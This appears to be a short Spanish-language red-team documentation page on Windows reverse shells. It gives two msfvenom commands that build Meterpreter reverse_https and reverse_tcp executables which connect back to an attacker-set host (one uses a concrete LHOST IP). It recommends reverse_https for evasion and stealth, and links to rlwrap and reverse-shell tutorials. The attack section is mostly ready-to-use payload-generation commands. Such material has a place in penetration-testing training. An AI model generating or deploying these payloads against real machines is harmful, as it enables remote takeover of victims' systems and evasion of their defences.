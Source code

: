 ```yaml
---
title: 🔁Revershell Windows
type: docs
prev: docs/first-page
weight: 8
sidebar:
  open: false
---
```


## REVERSHELL METERPRETER

### info

- <https://www.sciencedirect.com/topics/computer-science/meterpreter-shell>
- <https://docs.rapid7.com/metasploit/working-with-payloads/>

---

### 🧨 Comando 1

- <https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/windows/meterpreter/reverse_https.md>

```bash
./msfvenom -p windows/meterpreter/reverse_https LHOST=172.16.23.1 LPORT=4444 -f exe -o /tmp/https.exe
```

---

### 💥 Comando 2

- <https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/windows/meterpreter/reverse_tcp.md>

```bash
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f exe -o /tmp/payload.exe
```

### ✅ Recomendación

- Usa `reverse_https` para entornos donde necesitas **evasión** y **sigilo**.
- Usa `reverse_tcp` para pruebas en **entornos controlados o laboratorio**.

## RLWRAP

[I just learned about rlwrap, that can let your read commands be readline enabled with history and filename completion. (Tip) : r/bash (reddit.com)](https://www.reddit.com/r/bash/comments/12b0woi/i_just_learned_about_rlwrap_that_can_let_your/?tl=es-es)
[Reverse Shells en Windows - Deep Hacking](https://deephacking.tech/reverse-shells-en-windows/)
![imagen error](/images/red_team/revershell/20241015021345.png)
